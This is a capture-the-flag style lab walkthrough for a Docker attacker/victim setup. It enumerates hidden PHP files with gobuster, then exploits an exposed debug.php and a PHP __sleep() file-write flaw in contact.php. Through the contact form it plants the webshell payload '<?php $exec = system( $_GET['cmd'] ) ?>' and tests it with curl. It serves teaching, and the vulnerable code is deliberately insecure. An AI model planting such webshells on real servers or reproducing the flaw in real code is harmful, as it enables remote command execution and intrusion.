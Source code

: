 1. On the attacker-10 vm, open a terminal. To access the attacker-10 vm, on your browser,
   enter the address http://attacker_ip or ``localhost:6080/`` to access the VNC session. You may run ``` docker inspect          <image tag name> ``` to find the container's IP address.

2. Enter the command ``apt update -y && apt upgrade -y && apt install
   gobuster -y`` to install a tool called gobuster.

3. Open a terminal in victim. Type the command ifconfig to check the IP of the server.

4. On the attacker-10 vm, open firefox browser, or install any browser you like. Enter
   http://victim_ip to the URL bar to access the VNC session

5. Try going through the website like a normal user, is there anywhere you can exploit,
   anything you can enter?

6. Then, on the attacker vm. use the command ``gobuster -w
   /wordlist/wordlist_php -u http://victim_ip`` to list the directory and hidden
   file on the webserver. Feel free to try other web enumeration tools, and use different
   wordlist as well.

7. After running the gobuster rto enumerate the hidden file on the webserver, you will find a
   new file called debug.php running on the website. To open debug.php, use the command
   http://victim_ip/debug.php

8. Now you have found the debug.php, it’s a mistake made by the developer. To access the
   source code of debug.php, you can enter the URL: ``view-source:http://<victim's IP address>/debug.php?read=debug.php`` to view the source code of the
   debug.php.

9. In the source code of debug.php, there are two Get parameters you can manipulate. One
   is called read and the other is execute. read can let you check the source code of the
   websites and execute will allow you to execute file contain PHP source code

10. When you run the gobuster tool, I am sure you have also found another php file called
   contact.php. contact.php is the file where the website will process the contact information
   entered by user, we can see the source code of this file by entering the URL:
   http://<victim's IP address>/debug.php?read=contact.php

11. Upon reviewing the source code of contact.php file, what have you found? There is a
   critical vulnerability in the file, a deserialization vulnerability.
   ```
   <?php
   # Omitted some code
   
   $new_customer = new customer;
   $new_customer->name = $name;
   $new_customer->email = $email;
   $new_customer->comment = $comment;
   $temp = serialize($new_customer);
   
   # Omitted some code
   
   class customer
   {
      public $name;
      public $email;
      public $comment;
      public function __sleep()
      {
         // Write the content to file once the object is serialized
         $filename = $this->name . '_' . $this->email;
         file_put_contents("./user_info/$filename", $this-
   >comment, FILE_USE_INCLUDE_PATH);
      }
   }
   ?>
   ```
12. A closer look at the preceding code reveals that the vulnerability exists in the magic
   function __sleep() defined in the class customer. The logic in the function __sleep()
   shows that once an instance of class customer is serialized, it will write a file to a
   directory in the web root directory.

13. Now we know there is a vulnerability in the code, how do we use this vulnerability?
   Recall earlier I asked you to find the parameter you can interact with on the website,
   there is a webpage where you can enter user defined text. To navigate to this page, enter
   the URL http://<victim_ip>/contact.html to access the page.

14. On this page, there are three parameters you can define: name, email, and comment. If
    you still remember the source code of the contact.php file, you can make an educated
    guess that the contact.php will handle the post request sent by contact.html form. If you
    want to verify that, you can also download burpsuites and verify. Or you can also
    examine the source code of the contact.html page to see where the POST request is sent
    to.

16. To exploit the vulnerability we see before, enter test in the name bar, enter user.php in the
    email bar, and ``<?php $exec = system( $_GET['cmd'] ) ?>`` in the comment section. After
    entering all the text, click submit to plant the webshell

18. On the attacker VM, use the command ``curl
    http://<victim's IP address>/user_info/test_user.php?cmd=whoami`` to test whether the planted
    webshell is working or not.

19. A secure server is running on the address <secure's IP address>, you are welcome to try attacking
    it, but it does not have the deserialization vulnerability and misconfiguration present on
    the victim VM.
